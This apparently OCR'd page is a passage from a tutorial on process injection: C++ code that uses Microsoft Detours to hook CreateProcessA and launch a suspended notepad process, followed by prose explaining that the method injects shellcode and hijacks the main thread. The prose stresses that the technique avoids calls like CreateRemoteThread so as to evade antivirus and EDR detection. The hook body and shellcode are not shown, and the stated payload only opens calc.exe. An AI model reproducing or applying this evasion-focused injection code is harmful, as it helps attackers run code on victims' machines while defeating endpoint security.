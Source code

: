 ```cpp
}

BOOL InstallCreateProcessHook()
{
    if (DetourTransactionBegin() != NO_ERROR) return FALSE;
    if (DetourUpdateThread(GetCurrentThread()) != NO_ERROR) return FALSE;
    if (DetourAttach(&(PVOID&)OriginalCreateProcessA, HookedCreateProcessA) != NO_ERROR) return FALSE;
    return DetourTransactionCommit() == NO_ERROR;
}

BOOL UninstallCreateProcessHook()
{
    if (DetourTransactionBegin() != NO_ERROR) return FALSE;
    if (DetourUpdateThread(GetCurrentThread()) != NO_ERROR) return FALSE;
    if (DetourDetach(&(PVOID&)OriginalCreateProcessA, HookedCreateProcessA) != NO_ERROR) return FALSE;
    return DetourTransactionCommit() == NO_ERROR;
}

int main()
{
    InstallCreateProcessHook();

    // Create a process to inject into (could be any benign process, such as notepad)
    STARTUPINFOA si = { sizeof(STARTUPINFOA) };
    PROCESS_INFORMATION pi;
    CreateProcessA(NULL, "C:\\Windows\\System32\\notepad.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

    WaitForSingleObject(pi.hProcess, INFINITE);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    UninstallCreateProcessHook();

    return 0;
}

```

This **shellcode injection** example demonstrates how to use **Detours** to hook `CreateProcessA` and perform a stealthy shellcode injection. By hijacking the main thread and avoiding suspicious API calls like `CreateRemoteThread`, this method reduces the chances of detection by traditional antivirus or endpoint detection and response (EDR) systems.


### Explanation of the Shellcode Injection Code with Detours

This code demonstrates how to use **Detours** to hook the `CreateProcessA` function, inject shellcode into a newly created process, and hijack the main thread to execute the shellcode. The shellcode itself launches **calc.exe**. The injection is performed in a stealthy manner, aiming to evade detection by avoiding suspicious API calls like `CreateRemoteThread`.
